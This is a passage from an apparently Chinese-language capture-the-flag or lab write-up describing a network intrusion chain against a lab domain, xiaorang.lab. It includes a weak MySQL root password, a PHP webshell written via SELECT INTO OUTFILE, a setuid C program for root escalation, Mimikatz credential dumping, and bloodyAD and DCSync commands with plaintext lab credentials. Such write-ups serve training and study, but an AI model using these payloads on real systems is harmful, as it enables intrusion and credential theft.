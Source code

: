 ```bash
[+] mysql:172.22.13.28:3306:root 123456
```

frp挂代理

mysql弱密码连接

MySQL写WebShell

```bash
select "<?php $arr = [$_POST[Ki1ro],$_REQUEST[Ki1ro]];@assert($arr[mt_rand(0,1)]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

蚁剑连获取flag

![image-20231017005539831](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017005539831.png)

有NFS提权的，那应该就是172.22.13.57 这台了

用nfs写ssh公钥连接

再写个suid文件给用户进行提权

```bash
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

获取flag

![image-20231017011111113](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017011111113.png)

还有个域用户密码

![image-20231017011152632](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017011152632.png)

应该是172.22.13.28的，直接rdp

其实刚才蚁剑已经获取了172.22.13.28的system权限，直接传猕猴桃到hash

chenglei的密码直接可以取出

![image-20231017011843037](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017011843037.png)

传个sharphound导一下域信息

因为chenglei有WriteDACL权限，直接给zhangwen写个dcsync，然后到域管理员hash

```bash
python bloodyAD.py -d xiaorang.lab -u 'chenglei' -p 'Xt61f3LBhg1' --host 172.22.13.6 add dcsync zhangwen
lsadump::dcsync /domain:xiaorang.lab /all /csv
```
